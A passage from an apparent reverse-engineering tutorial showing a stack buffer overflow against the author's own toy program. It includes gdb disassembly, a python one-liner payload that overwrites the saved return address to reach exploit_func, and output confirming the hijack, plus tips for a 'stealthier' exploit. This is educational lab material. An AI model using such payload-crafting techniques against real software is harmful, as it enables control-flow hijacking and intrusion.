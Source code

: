         gdb-peda$ disass main
        Dump of assembler code for function main:
        0x000000000040059f <+0>:     push   rbp
        0x00000000004005a0 <+1>:     mov    rbp,rsp
        0x00000000004005a3 <+4>:     mov    edi,0x400668
        0x00000000004005a8 <+9>:     call   0x400430 <puts@plt>
        0x00000000004005ad <+14>:    mov    eax,0x0
        0x00000000004005b2 <+19>:    call   0x400577 <vuln_func>
        0x00000000004005b7 <+24>:    mov    edi,0x400690
        0x00000000004005bc <+29>:    call   0x400430 <puts@plt>
        0x00000000004005c1 <+34>:    mov    eax,0x0
        0x00000000004005c6 <+39>:    pop    rbp
        0x00000000004005c7 <+40>:    ret
        End of assembler dump.
        gdb-peda$
        

*   The Actual Return Address of **vuln_func** should be **0x00000000004005b7 <+24>: mov edi,0x400690**. So, Original Return Address of **vuln_func** = 0x00000000004005b7.

*   Now that we have figured out how to make it more stealthier, let us write the exploit payload for this.
    
        python -c "print 'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'"
        

*   Always take care of Endianness while crafting exploit payloads. Simple mistake and the whole exploit might be of no use.

*   Let us come out of gdb and run the program with this exploit payload:
    
        ~/rev_eng_series/post_8$ python -c "print 'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'" | ./code1
        Before vuln_func: In main function
        aaaaaaaaaaaaaaaabbbbbbbbf@
        In exploit_func
        After vuln_func: In main function
        Segmentation fault (core dumped)
        adwi@adwi:~/rev_eng_series/post_8$
        

*   Woohoo!! Look at the output: **After vuln_func: In main function** . This means, the control was successfully transfered back to the main function.

*   This is a good progress, but we also were looking forward for the program not to crash. So, was there something we did not take care of?

### Another step towards being stealth!

1.  Look at our payload:
    
        python -c "print 'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'"
        

*   The **bbbbbbbb** job is to overwrite the **Old Rbp** value of **vuln_func**. The Old Rbp value of **vuln_func** is the Actual **rbp** value of our **main** function.
